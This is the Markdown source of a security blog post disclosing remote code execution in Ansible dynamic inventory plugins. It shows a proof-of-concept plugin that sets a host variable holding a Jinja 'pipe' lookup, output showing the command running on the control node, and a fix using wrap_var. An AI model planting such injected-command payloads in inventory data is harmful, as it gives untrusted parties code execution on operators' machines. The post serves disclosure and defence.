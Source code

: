 <!--
.. title: Remote Code Execution in Ansible dynamic inventory plugins
.. slug: remote-code-execution-in-ansible-dynamic-inventory-plugins
.. date: 2024-03-11 20:00:00 UTC
.. tags: english,linux,software,debian,planet-debian,ansible,security
.. category: 
.. link: 
.. description: 
.. type: text
-->

I had reported this to Ansible a year ago (2023-02-23), but it seems this is considered expected behavior, so I am posting it here now.

## TL;DR

Don't ever consume any data you got from an inventory if there is a chance somebody untrusted touched it.

## Inventory plugins

[Inventory plugins](https://docs.ansible.com/ansible/latest/plugins/inventory.html#inventory-plugins) allow Ansible to pull inventory data from a variety of sources.
The most common ones are probably the ones fetching instances from clouds like [Amazon EC2](https://docs.ansible.com/ansible/latest/collections/amazon/aws/aws_ec2_inventory.html)
and [Hetzner Cloud](https://docs.ansible.com/ansible/latest/collections/hetzner/hcloud/hcloud_inventory.html) or the ones talking to tools like [Foreman](https://theforeman.org/).

For Ansible to function, an inventory needs to tell Ansible how to connect to a host (so e.g. a network address) and which groups the host belongs to (if any).
But it can also set any arbitrary variable for that host, which is often used to provide additional information about it.
These can be tags in EC2, parameters in Foreman, and other arbitrary data someone thought would be good to attach to that object.

And this is where things are getting interesting.
Somebody could add a comment to a host and that comment would be visible to you when you use the inventory with that host.
And if that comment contains a [Jinja](https://jinja.palletsprojects.com/) expression, it might get executed.
And if that Jinja expression is using the [`pipe` lookup](https://docs.ansible.com/ansible/latest/plugins/lookup.html), it might get executed in your shell.

Let that sink in for a moment, and then we'll look at an example.

## Example inventory plugin

```python
from ansible.plugins.inventory import BaseInventoryPlugin

class InventoryModule(BaseInventoryPlugin):

    NAME = 'evgeni.inventoryrce.inventory'

    def verify_file(self, path):
        valid = False
        if super(InventoryModule, self).verify_file(path):
            if path.endswith('evgeni.yml'):
                valid = True
        return valid

    def parse(self, inventory, loader, path, cache=True):
        super(InventoryModule, self).parse(inventory, loader, path, cache)
        self.inventory.add_host('exploit.example.com')
        self.inventory.set_variable('exploit.example.com', 'ansible_connection', 'local')
        self.inventory.set_variable('exploit.example.com', 'something_funny', '{{ lookup("pipe", "touch /tmp/hacked" ) }}')
```

The code is mostly copy & paste from the [Developing dynamic inventory](https://docs.ansible.com/ansible/latest/dev_guide/developing_inventory.html) docs for Ansible and does three things:

1. defines the plugin name as `evgeni.inventoryrce.inventory`
2. accepts any config that ends with `evgeni.yml` (we'll need that to trigger the use of this inventory later)
3. adds an imaginary host `exploit.example.com` with `local` connection type and `something_funny` variable to the inventory

In reality this would be talking to some API, iterating over hosts known to it, fetching their data, etc.
But the structure of the code would be very similar.

The crucial part is that if we have a string with a Jinja expression, we can set it as a variable for a host.


## Using the example inventory plugin

Now we install the collection containing this inventory plugin,
or rather write the code to `~/.ansible/collections/ansible_collections/evgeni/inventoryrce/plugins/inventory/inventory.py`
(or wherever your Ansible loads its collections from).

And we create a configuration file.
As there is nothing to configure, it can be empty and only needs to have the right filename: `touch inventory.evgeni.yml` is all you need.

If we now call `ansible-inventory`, we'll see our host and our variable present:

```console
% ANSIBLE_INVENTORY_ENABLED=evgeni.inventoryrce.inventory ansible-inventory -i inventory.evgeni.yml --list
{
    "_meta": {
        "hostvars": {
            "exploit.example.com": {
                "ansible_connection": "local",
                "something_funny": "{{ lookup(\"pipe\", \"touch /tmp/hacked\" ) }}"
            }
        }
    },
    "all": {
        "children": [
            "ungrouped"
        ]
    },
    "ungrouped": {
        "hosts": [
            "exploit.example.com"
        ]
    }
}
```

([`ANSIBLE_INVENTORY_ENABLED=evgeni.inventoryrce.inventory`](https://docs.ansible.com/ansible/latest/reference_appendices/config.html#envvar-ANSIBLE_INVENTORY_ENABLED) is required to allow the use of our inventory plugin, as it's not in the default list.)

So far, nothing dangerous has happened.
The inventory got generated, the host is present, the funny variable is set, but it's still only a string.

## Executing a playbook, interpreting Jinja

To execute the code we'd need to use the variable in a context where Jinja is used.
This could be a template where you actually use this variable, like a report where you print the comment the creator has added to a VM.

Or a [`debug`](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/debug_module.html) task where you dump all variables of a host to analyze what's set.
Let's use that!

```yaml
- hosts: all
  tasks:
    - name: Display all variables/facts known for a host
      ansible.builtin.debug:
        var: hostvars[inventory_hostname]
```

This playbook looks totally innocent: run against all hosts and dump their hostvars using `debug`.
No mention of our funny variable.
Yet, when we execute it, we see:

```console
% ANSIBLE_INVENTORY_ENABLED=evgeni.inventoryrce.inventory ansible-playbook -i inventory.evgeni.yml test.yml
PLAY [all] ************************************************************************************************

TASK [Gathering Facts] ************************************************************************************
ok: [exploit.example.com]

TASK [Display all variables/facts known for a host] *******************************************************
ok: [exploit.example.com] => {
    "hostvars[inventory_hostname]": {
        "ansible_all_ipv4_addresses": [
            "192.168.122.1"
        ],
        …
        "something_funny": ""
    }
}

PLAY RECAP *************************************************************************************************
exploit.example.com  : ok=2    changed=0    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   
```

We got *all* variables dumped, that was expected, but now `something_funny` is an empty string?
Jinja got executed, and the expression was `{{ lookup("pipe", "touch /tmp/hacked" ) }}` and `touch` does not return anything.
But it did create the file!

```console
% ls -alh /tmp/hacked 
-rw-r--r--. 1 evgeni evgeni 0 Mar 10 17:18 /tmp/hacked
```

We just "hacked" the Ansible [control node](https://docs.ansible.com/ansible/latest/network/getting_started/basic_concepts.html#control-node) (aka: your laptop),
as that's where `lookup` is executed.
It could also have used the [`url` lookup](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/url_lookup.html) to send the contents of your Ansible vault to some internet host.
Or connect to some VPN-secured system that should not be reachable from EC2/Hetzner/….

## Why is this possible?

This happens because [`set_variable(entity, varname, value)`](https://github.com/ansible/ansible/blob/56f31126ad1c69e5eda7b92c1fa15861f722af0e/lib/ansible/inventory/data.py#L245) doesn't mark the values as unsafe and Ansible processes everything with Jinja in it.

In this very specific example, a possible fix would be to explicitly wrap the string in [`AnsibleUnsafeText` by using `wrap_var`](https://github.com/ansible/ansible/blob/stable-2.16/lib/ansible/utils/unsafe_proxy.py#L346-L363):

```python
from ansible.utils.unsafe_proxy import wrap_var
…
self.inventory.set_variable('exploit.example.com', 'something_funny', wrap_var('{{ lookup("pipe", "touch /tmp/hacked" ) }}'))
```

Which then gets rendered as a string when dumping the variables using `debug`:

```console
"something_funny": "{{ lookup(\"pipe\", \"touch /tmp/hacked\" ) }}"
```

But it seems inventories don't do this:

```python
for k, v in host_vars.items():
    self.inventory.set_variable(name, k, v)
```
([aws_ec2.py](https://github.com/ansible-collections/amazon.aws/blob/89ec6ba2ee7fae84eb1aae098da040eba4974c7d/plugins/inventory/aws_ec2.py#L762-L763))

```python
for key, value in hostvars.items():
    self.inventory.set_variable(hostname, key, value)
```
([hcloud.py](https://github.com/ansible-collections/hetzner.hcloud/blob/46717e2d6574b1e36db7bc73b54712f9270a2169/plugins/inventory/hcloud.py#L503-L504))

```python
for k, v in hostvars.items():
    try:
        self.inventory.set_variable(host_name, k, v)
    except ValueError as e:
        self.display.warning("Could not set host info hostvar for %s, skipping %s: %s" % (host, k, to_text(e)))
```
([foreman.py](https://github.com/theforeman/foreman-ansible-modules/blob/8ad32f166c3d1f8f4077dc3029b312c5b9dc534b/plugins/inventory/foreman.py#L516-L520))

And honestly, I can totally understand that.
When developing an inventory, you do not expect to handle insecure input data.
You also expect the API to handle the data in a secure way by default.
But `set_variable` doesn't allow you to tag data as "safe" or "unsafe" easily and data in Ansible defaults to "safe".

## Affected versions

I've tried this on Ansible (core) 2.13.13 and 2.16.4.
I'd totally expect older versions to be affected too, but I have not verified that.
